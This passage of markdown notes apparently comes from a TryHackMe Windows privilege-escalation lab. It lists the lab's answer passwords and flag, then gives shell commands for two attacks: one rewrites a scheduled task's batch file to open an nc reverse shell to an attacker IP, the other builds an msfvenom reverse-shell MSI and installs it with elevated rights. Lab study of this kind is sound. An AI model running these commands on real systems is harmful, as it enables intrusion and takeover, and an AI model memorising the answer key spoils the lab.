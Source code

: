 ```markdown
1. A password for the julia.jones user has been left on the Powershell history. What is the password? - ZuperCkretPa5z

2. A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user? - 098n0x35skjD3

3. There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop. - THM{WHAT_IS_MY_PASSWORD}

4. Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user? - CoolPass2021
```

## Other Quick Wins

* Scheduled Tasks:

```shell
#in target machine
schtasks /query /tn vulntask /fo list /v
#to get info about particular scheduled task
#note 'Task to Run' and 'Run as User' parameter

#we have to overwrite 'Task to Run' executable

icacls C:\tasks\schtask.bat
#to check file permissions on executable

#if BUILTIN\Users group has full access over task, we can modify file

#change bat file to spawn reverse shell
echo C:\tools\nc64.exe -e cmd.exe 10.17.48.136 4444 > C:\tasks\schtask.bat

#in attacker machine
nc -lvp 4444

#in target machine
#run modified task
schtasks /run /tn vulntask
#we receive reverse shell on attacker machine
#flag can be found in taskusr1's Desktop
```

* AlwaysInstallElevated:

```shell
#to generate malicious MSI (Windows installer) files to run with admin privilege

#set registry values in victim machine
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

#in attacker machine, create malicious MSI file
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.48.136 LPORT=4444 -f msi -o malicious.msi
#run msfconsole handler module for catching reverse shell
#transfer MSI file from attacker to victim

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
